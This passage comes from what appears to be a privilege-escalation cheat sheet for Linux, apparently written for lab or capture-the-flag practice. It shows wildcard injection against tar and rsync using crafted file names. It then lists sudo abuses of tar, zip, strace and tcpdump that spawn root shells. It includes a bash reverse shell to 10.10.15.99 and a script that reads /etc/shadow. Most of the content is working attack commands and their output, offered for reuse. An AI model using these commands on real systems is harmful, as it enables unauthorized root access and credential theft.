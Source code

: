     #  tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    ```
- Rcync command Execution
    ```bash
    -e, --rsh=COMMAND           specify the remote shell to use
        --rsync-path=PROGRAM    specify the rsync to run on remote machine
    ```
    ```bash
    # ls -al
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

    # rsync -t *.c foo:src/
    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

    # ls -al
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

    # cat shell.c
    /usr/bin/id > shell_output.txt

    # cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    ```
- Practice
  - HTB - Joker
- Create a script, setuid bit and then use this attack to `chown` the script to gain prev-esc


**Exploits Related to Tools**

- Tar: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`
    ```bash
    echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
    tar -cvf a.tar a.sh
    sudo tar -xvf a.tar --to-command /bin/bash
    ```
- Zip: `sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"`
- Strace: `sudo strace -o/dev/null /bin/bash`
- tcpdump
    ```bash
    echo $’id\ncat /etc/shadow’ > /tmp/.shell
    chmod +x /tmp/.shell
    sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell-Z root
    ```